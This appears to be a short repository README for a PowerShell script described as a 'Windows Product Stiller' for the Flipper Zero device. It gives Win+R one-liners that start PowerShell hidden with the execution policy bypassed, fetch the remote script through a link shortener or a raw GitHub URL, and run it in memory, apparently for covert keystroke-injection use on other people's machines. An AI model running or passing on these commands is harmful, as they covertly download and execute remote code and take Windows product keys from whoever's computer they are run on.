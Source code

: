 # WinProdKey.ps1
Hosting for WinProdKey.ps1 (Script for Windows Product Stiller for Flipper Zero script modified by me)

Win + R command: powershell -w h -ep bypass "irm https://bit.ly/49SFZ7f | iex" or:

powershell -w h -ep bypass "irm https://raw.githubusercontent.com/nazarhktwitch/WinProdKey.ps1/refs/heads/main/WinProdKey.ps1 | iex"

Or just use payload (For Flipper Zero)
